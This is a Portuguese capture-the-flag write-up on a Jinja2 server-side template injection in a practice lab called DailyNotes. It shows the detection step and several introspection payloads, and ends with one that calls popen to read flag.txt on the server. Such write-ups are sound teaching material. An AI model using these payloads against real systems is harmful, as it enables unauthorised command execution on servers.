



### DailyNotes Writeup - SSTI
> Desafio vulnerável a Server Side Template Injection

O DailyNotes é um laboratório simples que simula um painel de administração de publicações de um site de noticias, ele é vulnerável a Server Side Template Injection (SSTI) na tela de notícias. O input do usuário é concatenado diretamente no template que exibe as informações das notícias publicadas, o que permite que um atacante injete diretivas de template do Jinja2 e, eventualmente, consiga um acesso total ao servidor.

## 1. Identificando a vulnerabilidade

Ao explorar a aplicação, encontramos uma lista das noticias publicas, as quais podem ser editadas:



Clicando em visualizar surge a opção de editar uma notícia.

Digitando {{ 7*7 }} a notícia é salva e aparece 49, o que indica que a nossa entrada foi interpretada pelo template engine da aplicação:



## 2. Explorando SSTI:

Como o Jinja2 roda em Python, o objetivo do atacante é sair do contexto do template e acessar o ambiente nativo do Python para executar comandos do sistema operacional. Para isso, utiliza-se a introspecção de objetos através de atributos especiais, por exemplo:

```python
{{ "".__class__ }}
```
Isso acessa a classe de uma string. Poderiamos tentar com outros tipos de dados, já que em Python tudo em um objeto.

Injetando o payload acima, obtemos como resposta:

```python
<class 'str'>
```

Todos os objetos em Python guardam um atributo especial \_\_mro\_\_, o qual guarda a ordem de prioridade que o Python usa para buscar um método ou atributo em uma classe. Podemos então pular pra classe pai da string injetando:

```python
{{ "".__class__.__mro__ }}
```

Isso retorna:

```python
(<class 'str'>, <class 'object'>)
```

Então injetamos:

```python
{{ "".__class__.__mro__[-1] }}
```

E estamos na classe object. Como a partir daqui a exploração segue uma série de passos longos pra explicar, abaixo está o payload final fabricado pra exploração:

```python
{{ "".__class__.__mro__[-1].__subclasses__()[155].__init__.__globals__['popen']('cat flag.txt').read() }}
```

A aplicação então retorna:



E o ctf está concluído.